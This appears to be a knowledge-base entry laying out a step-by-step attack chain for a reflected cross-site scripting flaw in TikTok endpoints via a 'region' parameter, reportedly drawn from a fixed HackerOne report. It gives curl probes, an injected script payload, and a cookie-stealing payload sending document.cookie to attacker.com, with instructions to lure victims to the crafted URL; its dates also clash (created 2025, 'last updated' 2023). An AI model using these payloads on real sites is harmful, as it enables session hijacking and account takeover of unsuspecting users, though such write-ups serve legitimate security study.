

---
tags:
  - xss
  - reflected-xss
  - tiktok
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-test-region-parameter]]'
  - '[[commands/javascript-xss-payload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-TikTok-Endpoint]]'
  - '[[procedures/Craft-and-Inject-XSS-Payload]]'
  - '[[procedures/Exploit-XSS-for-Session-Hijacking]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
description: >-
  Exploitation of a reflected XSS vulnerability in TikTok endpoints using the
  region parameter to execute arbitrary JavaScript for potential session
  hijacking or data theft
skill_level: intermediate
impact_level: high
id: ca087fb6-225d-48c6-8a69-0c54cd2f66da
created_at: '2025-12-14T00:11:25.182Z'
updated_at: '2025-12-14T00:11:25.182Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
# Reflected XSS Exploitation in TikTok Endpoints via Region Parameter

## Overview

This attack chain demonstrates the exploitation of a reflected cross-site scripting (XSS) vulnerability in TikTok endpoints that utilize the 'region' parameter. The vulnerability arises from improper sanitization of user-supplied input, allowing attackers to inject and execute arbitrary JavaScript in a victim's browser. This can lead to session hijacking, data theft, or other client-side attacks. The chain covers identification of the vulnerable endpoint, crafting and injecting the payload, and exploiting it for malicious purposes. Based on a HackerOne report, this issue was triaged and fixed by TikTok.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None specific; standard web tools like curl or a browser suffice.

### Target Environment

- Web platform
- TikTok endpoints accepting 'region' parameter
- Network access to the target URL

### Initial Access Requirements

- Ability to craft and send HTTP requests to TikTok endpoints
- Victim must visit the crafted malicious URL

## Detailed Attack Procedures

### Step 1: Identify Vulnerable TikTok Endpoint
procedure: [[procedures/Identify-Vulnerable-TikTok-Endpoint]]

**Objective**: Locate TikTok endpoints that use the 'region' parameter and test for improper input sanitization.

**Instructions**: Use [[commands/curl-test-region-parameter]] to send a test request and observe if the parameter is reflected without sanitization:

```bash
curl "https://example.tiktok.endpoint?region=test"
```

Analyze the response for reflected input. If the 'region' value appears in the output without escaping, it may be vulnerable.

**Expected Output**: HTTP response showing the 'region' parameter reflected in the page content.

**Success Indicators**:
- Parameter reflection confirmed
- No evidence of HTML escaping or sanitization

### Step 2: Craft and Inject XSS Payload
procedure: [[procedures/Craft-and-Inject-XSS-Payload]]

**Objective**: Create a malicious JavaScript payload and inject it into the 'region' parameter to trigger reflected XSS.

**Instructions**: Craft a simple alert payload using [[commands/javascript-xss-payload]] and append it to the URL:

```javascript
"><script>alert('XSS')</script>
```

Send the request via curl or direct URL:

```bash
curl "https://example.tiktok.endpoint?region=%22%3E%3Cscript%3Ealert('XSS')%3C/script%3E"
```

Have the victim visit the crafted URL to execute the payload in their browser.

**Expected Output**: JavaScript execution, such as an alert box in the victim's browser.

**Success Indicators**:
- Payload executes without errors
- Arbitrary JavaScript runs in the victim's context

### Step 3: Exploit XSS for Session Hijacking
procedure: [[procedures/Exploit-XSS-for-Session-Hijacking]]

**Objective**: Leverage the XSS to steal session cookies or perform other malicious actions like session hijacking.

**Instructions**: Modify the payload to exfiltrate cookies using [[commands/javascript-xss-payload]]:

```javascript
"><script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

Inject into the URL and trick the victim into visiting it. Monitor your server for incoming data.

**Expected Output**: Stolen session data sent to attacker's server.

**Success Indicators**:
- Session cookies captured
- Potential for account takeover or data theft

## Attack Chain Summary

### Key Achievements

1. Identification of unsanitized parameter in TikTok endpoints
2. Successful injection and execution of JavaScript payload
3. Exploitation leading to session hijacking or data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

*Last updated: 2023-10-01*
